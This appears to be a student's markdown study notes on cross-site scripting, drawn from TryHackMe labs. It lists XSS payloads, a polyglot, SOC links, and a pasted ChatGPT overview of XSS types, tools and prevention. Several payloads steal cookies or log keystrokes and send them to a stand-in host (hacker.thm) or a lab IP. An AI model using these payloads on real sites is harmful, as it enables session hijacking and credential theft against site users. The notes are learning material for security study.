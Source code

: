# Cross Site Scripting

## Description

## Techniques

## Types of XSS:
* Stored XSS
* Reflected XSS
* DOM-Based XSS

https://tryhackme.com/room/xss

Common XSS Payloads:

* Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.
Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).
* XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
* Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner (more information on this is covered in the TryHackMe XSS room).

an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

Proof Of Concept: <script>alert('XSS');</script>
Session Stealing: <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
Keylogger: <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
Business Logic: <script>user.changeEmail('attacker@hacker.thm');</script>

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Stored XSS

the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page

DOM Based XSS: 

eval() = unsafe javascript method

Blind XSS

A popular tool for Blind XSS attacks is xsshunter

=========== SOC path ===========

https://feedly.com/i/welcome

https://thedfirreport.com/

https://app.any.run/tasks/a66178de-7596-4a05-945d-704dbf6b3b90/

punycode atacks

https://bazaar.abuse.ch/

https://malshare.com/

https://tdm.socprime.com/

Fuzzy hashing

https://ssdeep-project.github.io/ssdeep/index.html

https://attack.mitre.org/

pyramid of pain

XSS Polyglot

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

</textarea><script>alert('THM');</script>

</textarea><script>fetch('http://10.10.183.237:9001?cookie=' + btoa(document.cookie) );</script>

## Command Injection

Command injection is the abuse of an application's behaviour to execute commands on the operating system, using the same privileges that the application on a device is running with

https://github.com/payloadbox/command-injection-payload-list

. For example, the shell operators ;, & and && will combine two (or more) system commands and execute them both

window.location.hostname

(<script>alert("window.location.hostname")</script>)

<script>alert("window.location.hostname")</script>


<script>alert(document.cookie)</script>

<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>

## Resources

* https://netsec.expert/posts/xss-in-2021/
* https://chawdamrunal.medium.com/xss-cheat-sheet-e8b8261963c9
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* https://hackersonlineclub.com/cross-site-scripting-xss/
* https://0xhorizon.eu/cheat-sheet/xss/
* https://kipalog.com/posts/Some-XSS-payload



####### ChatGPT Stuff:

# Cross-Site Scripting (XSS)

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a type of security vulnerability that occurs when an attacker injects malicious code into a website. This code is executed in the context of the affected website and can potentially steal sensitive information from the users who visit the site. There are two main types of XSS: stored and reflected.

### Stored XSS

Stored XSS, also known as persistent XSS, occurs when the malicious code is stored on the target server and served to all users who visit the affected pages. The code is stored in a database or other persistent data storage mechanism and is served to users without any validation or sanitization.

### Reflected XSS

Reflected XSS, also known as non-persistent XSS, occurs when the malicious code is included in a request to the server and reflected back to the user without proper validation or sanitization. The code is not stored on the server, but rather is executed in the context of the affected website each time the page is loaded.

## XSS Tools

XSS Validator: An open-source tool that can be used to identify and validate XSS vulnerabilities.

OWASP ZAP (Zed Attack Proxy): An open-source web application security scanner that can be used to identify and mitigate XSS vulnerabilities.

Burp Suite: An integrated platform for performing security testing of web applications that can be used to identify and mitigate XSS vulnerabilities.

Arachni: An open-source web application security scanner that can be used to identify and mitigate XSS vulnerabilities.

W3af: An open-source web application security scanner that can be used to identify and mitigate XSS vulnerabilities.

XSS Auditor: An online tool built into the Google Chrome browser that can be used to detect and prevent XSS attacks.

Acunetix Online Vulnerability Scanner: An online tool that can be used to scan web applications for XSS vulnerabilities.

Qualys FreeScan: An online tool that can be used to scan web applications for XSS vulnerabilities.

Netsparker Web Application Security Scanner: An online tool that can be used to scan web applications for XSS vulnerabilities.

Veracode: An online platform that provides a range of security services, including web application security testing, that can be used to identify and mitigate XSS vulnerabilities.S

## Impact of XSS

The impact of XSS can be severe and can include:

- Stealing of sensitive information such as passwords, cookies, and other session-related data
- Redirection of the user to malicious sites
- Modification of the content of the affected website to spread malicious messages or ads
- Execution of arbitrary code on the client-side, potentially compromising the client machine

## Prevention of XSS

To prevent XSS, it is important to properly validate and sanitize user input. This can be done in a number of ways, including:

- Escaping special characters in user input, such as angle brackets (< and >) and ampersands (&)
- Stripping out all HTML and JavaScript from user input
- Implementing a Content Security Policy (CSP) that restricts the types of content that can be executed in the context of the website

It is also important to keep all software up-to-date as many XSS vulnerabilities are discovered and patched in this manner.

## Conclusion

Cross-Site Scripting (XSS) is a serious security vulnerability that can have severe consequences for both users and website owners. It is important to properly validate and sanitize user input and to keep software up-to-date in order to prevent XSS attacks.

## XSS

* [XSS] (https://labs.f-secure.com/blog/getting-real-with-xss/)
